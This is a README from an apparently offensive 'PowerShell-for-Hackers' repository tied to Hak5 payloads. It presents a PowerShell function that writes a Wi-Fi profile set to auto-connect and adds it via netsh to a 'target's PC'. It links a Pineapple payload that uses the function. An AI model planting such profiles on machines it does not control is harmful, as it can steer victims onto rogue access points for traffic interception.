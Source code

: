 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Add-NetWork

## Description

This function will add a network profile to your targets PC  

## The Function

### [Add-NetWork] 

This function will accept 3 parameters, 2 of which are mandatory 

You always have to provide the $SSID to give your network a name 

The $Security parameter is also mandatory only takes the value of "t"(true) or "f"(false) 

This will tell the function whether or not you need a wifi password for your network 

If a wifi password is deemed necessary you provide it using the $PW variable 

Set-up a new network profile on your targets PC using the following syntax: 

```
For a network profile using a Password use:

Add-NetWork -SSID wifi-name -security t -PW wifi-password

For a network profile NOT using a Password use:

Add-NetWork -SSID wifi-name 

```


```
function Add-NetWork {

[CmdletBinding()]
param (	
[Parameter (Mandatory = $True)]
[string]$SSID,

[Parameter (Mandatory = $False)]
[Alias("s")]
[string]$Security,

[Parameter (Mandatory = $False)]
[string]$PW

)

if (!$Security) {$Security = "f"}

# -------------------------------------------------------------------------------------------------

$sec = switch ( $Security )
{
    "t"  { 
"
        <security>
            <authEncryption>
                <authentication>WPA2PSK</authentication>
                <encryption>AES</encryption>
                <useOneX>false</useOneX>
            </authEncryption>
            <sharedKey>
                <keyType>passPhrase</keyType>
                <protected>false</protected>
                <keyMaterial>$PW</keyMaterial>
            </sharedKey>
        </security>
"
}
    "f" { 

"
        <security>
            <authEncryption>
                <authentication>open</authentication>
                <encryption>none</encryption>
                <useOneX>false</useOneX>
            </authEncryption>
        </security>
" 

}
}

# -------------------------------------------------------------------------------------------------

$profilefile="ACprofile.xml"
$SSIDHEX=($SSID.ToCharArray() |foreach-object {'{0:X}' -f ([int]$_)}) -join''
$xmlfile="<?xml version=""1.0""?>
<WLANProfile xmlns=""http://www.microsoft.com/networking/WLAN/profile/v1"">
    <name>$SSID</name>
    <SSIDConfig>
        <SSID>
            <hex>$SSIDHEX</hex>
            <name>$SSID</name>
        </SSID>
    </SSIDConfig>
    <connectionType>ESS</connectionType>
    <connectionMode>auto</connectionMode>
    <MSM>
$sec
    </MSM>
</WLANProfile>
"

$XMLFILE > ($profilefile)
netsh wlan add profile filename="$($profilefile)"
}
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[PineApple](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-PineApple)


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
